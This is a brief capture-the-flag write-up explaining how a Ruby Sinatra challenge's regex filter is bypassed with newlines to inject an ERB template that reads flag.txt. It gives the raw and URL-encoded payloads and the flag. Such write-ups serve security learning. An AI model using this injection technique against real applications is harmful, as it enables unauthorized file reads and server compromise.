



# Embed Flow
> This guy wants you to guess his favorite programming language, but missed setting up the pattern correctly.

## About the Challenge
We got a website and this website is using Sinatara (Ruby). Here is the preview of the challenge



If we try to input `'` character, we'll get an error message like this:



## How to Solve?
After seeing the regex pattern, I immediately knew this was similar to a HTB challenge called `Neonify` (https://blog.devops.dev/ssti-bypass-filter-0-9a-z-i-08a5b3b98def). So I used the same payload to read the flag :D

```
test
<%= File.open('flag.txt').read %>
test
```

And then encode it using urlencode and it will become

```
test%0A%3C%25=%20File.open('flag.txt').read%20%25%3E%0Atest
```



```
ictf{ruby_r3g3x_n3w_l1n3_4l3rt}
```